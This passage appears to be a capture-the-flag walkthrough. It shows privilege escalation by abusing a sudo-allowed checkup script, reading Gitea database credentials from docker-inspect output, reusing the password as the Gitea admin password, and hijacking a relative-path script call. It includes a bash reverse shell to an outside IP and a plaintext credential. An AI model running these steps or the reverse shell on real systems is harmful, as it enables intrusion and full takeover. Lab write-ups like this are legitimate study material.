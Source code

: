 Provide docker-ps as arg

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```

![[Pasted image 20250418222309.png]]

Provide docker-inspect and the format and container name

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {{.Config}} 9608
```

![[Pasted image 20250418222630.png]]

Reformat as JSON so it's easier to read

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 9608
```

![[Pasted image 20250418222835.png]]
- Got gitea database creds `gitea:yuiu1hoiu4i5ho1uh`

Now we can login to mysql?

But trying to login to gitea as administrator with this password instead.

It worked!

![[Pasted image 20250418223134.png]]

There's a scripts repo and we can see source code. 

Viewing system-checkup.py 

![[Pasted image 20250418223305.png]]
- We want to find some code execution vulnerability here
- Notice that `./full-checkup.sh` is being executed, but full path isn't provided
	- If we execute this script in a directory that we have write access to, it should execute full-checkup
![[Pasted image 20250418230006.png]]
cd to `/dev/shm`

Create a file called `full-checkup.sh`

Put this reverse shell 

```
#!/bin/bash

bash -c 'bash -i &> /dev/tcp/10.10.14.6/9002 0>&1'

```

![[Pasted image 20250418231656.png]]

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Got root.

![[Pasted image 20250418232428.png]]
